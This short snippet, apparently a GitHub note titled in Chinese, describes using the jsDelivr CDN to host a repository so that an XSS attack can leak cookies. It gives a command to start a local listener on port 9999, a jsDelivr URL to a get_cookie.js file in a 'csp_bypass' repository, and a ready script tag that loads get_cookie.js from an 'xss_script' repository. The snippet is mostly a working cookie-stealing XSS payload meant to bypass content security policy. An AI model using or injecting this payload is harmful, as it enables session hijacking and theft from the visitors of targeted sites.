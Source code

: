 利用cdn.jsdelivr.net托管仓库造成XSS泄露cookie  
  
    python3 -m http.server 9999
    https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/csp_bypass@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js
    <script src="https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/xss_script@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js"></script>
